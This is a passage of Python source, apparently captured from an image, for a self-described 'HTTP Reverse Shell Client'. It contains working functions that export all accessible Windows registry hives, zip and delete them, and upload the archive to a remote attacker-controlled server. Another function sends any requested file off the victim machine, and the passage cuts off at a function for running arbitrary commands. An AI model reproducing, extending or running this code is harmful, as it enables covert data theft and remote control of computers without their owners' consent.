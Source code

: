 ``` python
Date: November 1, 2019

HTTP Reverse Shell Client
"""


def pull_registry():
    """
    Using windows reg export batch command exports all registry
    keys (other than ones requiring admin access like SAM). Following
    the exporting of the registry to files, those files will be zipped,
    removed, and then sent back to the server.
    """
    hives = ['HKEY_CLASSES_ROOT', 'HKEY_CURRENT_USER',
            'HKEY_LOCAL_MACHINE', 'HKEY_USERS', 'HKEY_CURRENT_CONFIG']

    zipfile = 'reg.zip'
    with ZipFile(zipfile, 'w') as zip:
        for key in hives:
            fname = f"bkReg_{key}.reg"
            filenamepath = f"{fname}"
            regkk = f"reg export {key} {filenamepath}"
            os.system(regkk)
            zip.write(filenamepath)
            os.remove(filenamepath)

    # path to zip file containing reg keys, start with `^ `
    send_file(f'^ ./{zipfile}')

    os.remove(f'./{zipfile}')


def send_file(command):
    """
    Sends requested file back to server

    args:
        command (str): string containing path to file
        to send to server

        uses format `^ file_path`

    """
    path = command[2:]
    print(f"Pulling file: {path}")

    if os.path.exists(path):
        url = IP + '/store'  # Append /store in the URL
        # Add a dictionary key where file will be stored
        files = {'file': open(path, 'rb')}
        r = requests.post(url, files=files)  # Send the file
        # requests library use POST method called "multipart/form-data"
    else:
        post_response = requests.post(
            url=IP, data='[-] Not able to find the file !')


def run_process(command):
    """
    Runs local process on machine

    args:
        command (str): command to run on machine
```